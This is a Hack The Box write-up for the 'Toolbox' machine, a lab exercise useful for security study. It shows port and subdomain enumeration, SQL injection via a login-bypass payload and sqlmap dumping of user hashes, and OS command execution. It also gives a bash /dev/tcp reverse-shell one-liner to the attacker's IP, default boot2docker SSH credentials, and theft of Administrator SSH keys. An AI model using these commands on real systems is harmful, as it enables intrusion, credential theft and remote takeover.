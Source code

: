 ```yaml
---
title: "[HTB] Machine: Toolbox"
description: "[HTB] Machine: Toolbox"
date: 2023-07-09
menu:
  sidebar:
    name: "[HTB] Machine: Toolbox"
    identifier: htb-machine-toolbox
    parent: htb-machines-windows
    weight: 10
hero: images/toolbox.png
tags: ["HTB", "docker-toolbox", "ffuf", "sqli", "postgresql", "sqlmap", "docker", "container"]
---
```


# Toolbox
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.236
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 19:02 BST
Nmap scan report for 10.10.10.236 (10.10.10.236)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|   256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_  256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-09T18:02:45
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -32s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds

```
- Web server
  - There is also a certificate for `admin.megalogistic.com`

![](./images/1.png)

![](./images/2.png)

- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -k -fs 22357 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.236
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.megalogistic.com
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 22357
________________________________________________

[Status: 200, Size: 889, Words: 134, Lines: 36, Duration: 124ms]
```

- `admin.megalogistic.com`

![](./images/3.png)

- `ftp`

![](./images/4.png)

- `smb`

![](./images/5.png)

## Foothold/User
- So the only option is to check `admin` panel
  - I went through possible [entry point payloads](https://book.hacktricks.xyz/pentesting-web/sql-injection)
  - We have an error indicating that the backend database is `postgresql`

![](./images/6.png)

- Since we know the database, we can test bypass login payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)
  - I went with the following payload `' or 1=1 --`

![](./images/7.png)

- But found nothing
  - So I ran `sqlmap` by saving request file from `Burp`
  - `sqlmap -r admin.megalogistic --force-ssl --batch --dbs` to list databases
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public --tables` to dump tables from `public` database
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public -T users --dump` to dump `users` table
  - Retrieved admin's hash `4a100a85cb5ca3616dcf137918550815` - but failed to crack it

![](./images/8.png)

![](./images/9.png)

![](./images/10.png)

- Let's try executing commands
  - `sqlmap -r admin.megalogistic --force-ssl --batch --os-cmd whoami`
  - And it works

![](./images/11.png)

- Let's get reverse shell
  - Spawn interactive shell to send a payload `sqlmap -r admin.megalogistic --force-ssl --batch  --os-shell`
  - Payload: `bash -c "bash -i >& /dev/tcp/10.10.16.12/6666 0>&1"` 

![](./images/12.png)

![](./images/13.png)

- The flag can be found in `/var/lib/postgresql` folder

## Root
- Currently we're in the container and need to escape it
  - Enumeration of the container revealed nothing
  - We might need to check the `exe` file found in `ftp`
  - We saw `Docker Toolbox`
  - Found [boot2docker](https://github.com/boot2docker/boot2docker#ssh-into-vm)
  - Apparently we can `ssh` to VM using following credentials `docker:tcuser`
  - If we check `ifconfig`, we have `172.17.0.2` so VM is probably `.1`

![](./images/14.png)

![](./images/15.png)

- We have `sudo` rights

![](./images/16.png)

- If we check the `/etc/*release`
  - It is indeed `boot2docker`

![](./images/17.png)

- Let's continue checking directories
  - We have `c` folder in the `/` path
  - If we check it, we see `Users`
  - If we continue following the path, we have an access to `Administrator`'s directory
  - So `Users` is probably mounted to `c`

![](./images/18.png)

![](./images/19.png)

- If we check `Administrator`'s directory we find `.ssh` folder which contains his keys
  - Let's copy them and connect

![](./images/20.png)

![](./images/21.png)
